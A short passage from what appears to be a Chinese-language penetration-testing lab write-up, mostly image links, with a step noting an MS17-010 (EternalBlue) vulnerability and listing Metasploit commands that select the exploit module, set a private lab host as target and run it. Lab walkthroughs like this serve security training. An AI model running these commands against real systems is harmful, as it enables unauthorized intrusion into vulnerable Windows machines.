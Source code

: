    ![28.png](img/ATT&CK1/png28.png)

3. 扫描一下ms17-010，存在ms17-010漏洞

   ``` powershell
   search ms17_010
   use 3
   set rhost 192.168.52.138
   exploit
   ```

   ![29.png](img/ATT&CK1/png29.png)
